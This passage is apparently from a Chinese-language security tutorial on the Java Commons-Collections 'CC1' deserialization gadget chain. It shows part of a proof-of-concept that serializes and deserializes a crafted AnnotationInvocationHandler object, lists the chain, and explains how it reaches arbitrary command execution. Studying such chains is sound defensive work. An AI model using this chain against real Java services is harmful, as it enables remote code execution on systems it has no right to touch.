Object o=constructor.newInstance(Target.class,decorate);
// 序列化
serialize(o);
deserialize();
}
|
| public static void serialize(Object o) {
try {
FileOutputStream fileOut = new FileOutputStream("person.ser");
ObjectOutputStream out = new ObjectOutputStream(fileOut);
out.writeObject(o);
out.close();
fileOut.close();
} catch (IOException e) {
e.printStackTrace();
}
}
public static void deserialize() {
try {
FileInputStream fileIn = new FileInputStream("person.ser");
ObjectInputStream in = new ObjectInputStream(fileIn);
in.readObject();
in.close();
fileIn.close();
} catch (IOException e) {
e.printStackTrace();
} catch (ClassNotFoundException e) {
e.printStackTrace();
}
}
|
写一下利用链：
| AnnotationInvocationHandler.readObject()
AbstractInputCheckedMapDecorator.setValue()
TransformedMap.checkSetValue()
ChainedTransformer.transform()
ConstantTransformer.transform()
InvokerTransformer.transform()
|
寻找利用链的过程：
| InvokerTransformer.transform() => TransformedMap.checkSetValue() => AbstractInputCheckedMapDecorator.setValue() => AnnotationInvocationHandler.readObject()
|
CC1 链还是比较好理解的，执行类 InvokerTransformer.transform() 实现了通过反射去执行任意方法的功能，由于 Runtime 类没有实现 Serializable ，所以需要通过反射来调用它，其中的 ConstantTransformer 和 ChainedTransformer 作为辅助类去帮助 InvokerTransformer 实现了命令执行的功能。最后是全部放到 ChainedTransformer 中，只要调用 transform() 即可执行命令。
不过要去触发 transform() 来执行命令，然后就寻找调用了 InvokerTransformer.transform() 的类，有 2 个，TransformMap 和 LazyMap。
TransformMap 可以通过获取的转换器去对 Map 进行转换，然后我们就使用上面的集成的 ChainedTransformer 构造器，在 TransformedMap.checkSetValue() 中执行了构造器的 transform() ，然后就找那里调用了 TransformedMap.checkSetValue() ，最后是在 AbstractInputCheckedMapDecorator.setValue() 中调用了，再继续向上找到了 AnnotationInvocationHandler.readObject() 这里，这里就可以作为入口类。
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}